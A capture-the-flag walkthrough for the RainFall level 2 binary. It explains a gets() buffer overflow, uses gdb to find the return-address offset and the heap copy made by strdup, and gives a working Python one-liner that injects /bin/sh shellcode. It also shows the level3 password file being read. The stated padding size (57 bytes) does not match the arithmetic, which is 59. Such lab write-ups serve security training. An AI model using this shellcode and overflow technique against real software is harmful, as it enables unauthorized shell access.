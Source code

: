 # Level 02 Walkthrough

## Binary analysis

```
080484d4    char* p()
080484e2        fflush(fp: stdout)
080484ed        char var_50[0x40]
080484ed        gets(buf: &var_50)
080484ed        
08048505        if ((__return_addr & 0xb0000000) != 0xb0000000)
0804852d            puts(str: &var_50)
0804853e            return strdup(s: &var_50)
0804853e        
08048516        printf(format: "(%p)\n", __return_addr)
08048522        _exit(status: 1)
08048522        noreturn


0804853f    int32_t main(int32_t argc, char** argv, char** envp)
0804854b        return p()
```

The binary `gets()` the input of the user in a static sized buffer of 64 bytes. It then check if the EIP of the function `p()` was overwritten by an address of the stack, if not it copies the buffer with `strdup()` to the heap. We can use the return address of `strdup()` to point to our shellcode which in this case would be on the heap and not the stack.

## Exploitation

Find the offset to EIP (80 bytes) with a cyclic pattern.
```
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) r
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0A6Ac72Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) 
```

We need to find the address of our copied buffer on the heap. To do so we will check the return value of `strdup()`.

```
level2@RainFall:~$ gdb -q ./level2 
Reading symbols from /home/user/level2/level2...(no debugging symbols found)...done.
(gdb) disass p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave  
   0x0804853e <+106>:	ret    
End of assembler dump.
(gdb) b *0x0804853d
Breakpoint 1 at 0x804853d
(gdb) r
Starting program: /home/user/level2/level2 
hello
hello

Breakpoint 1, 0x0804853d in p ()
(gdb) x/s $eax
0x804a008:	 "hello"
```

Generate a payload with shellcode, padding (offset - len(shellcode) = 57 bytes), and the target address.

## Commands used

```
(python -c 'shellcode = b"\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"; print(shellcode + b"A" * (80 - len(shellcode)) + b"\x08\x04\xa0\x08"[::-1])'; cat -) | ./level2 
```

## Result

After running the exploit, we get a shell as level3 and can read the password:

```
X�Rh//shh/bin��1�̀AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

